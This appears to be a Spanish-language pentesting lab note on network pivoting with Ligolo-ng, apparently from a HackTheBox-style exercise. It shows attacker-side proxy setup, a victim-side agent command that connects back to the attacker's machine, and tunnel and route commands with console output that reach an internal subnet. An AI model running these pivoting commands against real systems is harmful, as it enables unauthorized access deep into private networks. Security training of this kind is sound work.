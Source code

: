 # Alternativa Ligolo
- Ligolo es una buena alternativa sin tener que utilizar SOCKS ni proxychains que suelen ser engorrosos y generan mucha latencia en la red.
- Primero hay que [descargarse los binarios de agente y proxy](https://github.com/nicocha30/ligolo-ng/releases)

- **En maquina atacante:** `sudoligolo-proxy -selfcert`
```
ligolo-ng » interface_create --name "pivot"
INFO[0022] Creating a new "pivot" interface...          
INFO[0022] Interface created!                           
ligolo-ng »  
```
- **En maquina victima:** `./agent -connect ipKALI:11601 -ignore-cert`
- **En maquina atacante**
```
ligolo-ng » session
? Specify a session : 1 - ubuntu@WEB01 - 10.129.115.194:42414 - 00a21e69-4e53-4dec-9139-fb12ae570838
```
- Y ahora iniciamos el tunnel
    - También podemos usar `autoroute`
```
[Agent : ubuntu@WEB01] » tunnel_start --tun pivot
[Agent : ubuntu@WEB01] » INFO[0334] Starting tunnel to ubuntu@WEB01 (00a21e69-4e53-4dec-9139-fb12ae570838) 
```

#### Crear routing hacia la interfaz que queremos alcanzar

```
[Agent : ubuntu@WEB01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens192                           │
│ Hardware MAC │ 00:50:56:b0:df:18                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.115.194/16                │
│ IPv6 Address │ dead:beef::250:56ff:feb0:df18/64 │
│ IPv6 Address │ fe80::250:56ff:feb0:df18/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:b0:92:e9              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:feb0:92e9/64    │
└──────────────┴────────────────────────────────┘
[Agent : ubuntu@WEB01] » interface_add_route --name pivot --route 172.16.5.129/23
INFO[0423] Route created.                               
[Agent : ubuntu@WEB01] »  
```